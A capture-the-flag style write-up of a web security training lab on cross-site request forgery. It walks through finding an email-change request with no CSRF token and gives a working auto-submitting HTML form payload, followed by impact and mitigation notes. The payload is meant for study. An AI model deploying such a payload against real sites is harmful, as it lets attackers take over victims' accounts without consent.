 # **Lab: CSRF vulnerability with no defenses (APPRENTICE)** 🛡️

## **Mission Description** 🧠
The application's email change functionality is highly vulnerable to **Cross-Site Request Forgery (CSRF)** because it implements **no defenses** against this attack.

---

## **Objective** 🎯
Craft an HTML payload using a CSRF attack to change the victim's email address and host it on the Exploit Server.

---

## **Steps to Reproduce and Exploit** 🪜

1.  **Request Analysis:**
    * Logged in using the provided credentials (`wiener:peter`).
    * Intercepted the legitimate email change request using Burp Suite.
    * The request was a **POST** to `/my-account/change-email` with the body containing only the `email` parameter.

2.  **Identifying Weakness (No Defenses):**
    * The request **did not contain any CSRF Token** or other unpredictable, secret values.
    * The application relies solely on the user's **Session Cookie** for authorization, which enables the CSRF exploit.

3.  **Exploit Code Creation:**
    * Created an HTML form that perfectly mimics the vulnerable POST request, forcing the victim's browser to submit the request to the application's endpoint.

### **Exploit Payload (HTML/JavaScript)**

```html
<form method="POST" action="https://[LAB_ID].web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pwned-by-attacker@mail.com">
</form>
<script>
    // Auto-submit the form to silently execute the attack when the victim views the page.
    document.forms[0].submit();
</script>

    Execution:

        The payload was uploaded to the Exploit Server and delivered to the victim.

        The victim's browser automatically submits the form, including their valid session cookie, successfully changing their email address and solving the lab.

Vulnerability & Solution ✅

The lab was solved by successfully hosting and delivering the malicious HTML payload, confirming the application's lack of CSRF protection.

Notes 📝

    Vulnerability Type: CSRF (Classic No-Defenses scenario).

    Impact: An attacker can force authenticated users to perform state-changing actions (like changing email) without their consent.

    Mitigation: Implement strong CSRF Tokens (Synchronizer Token Pattern) in all state-changing POST requests. These tokens must be unique, secret, and tied to the user's session.
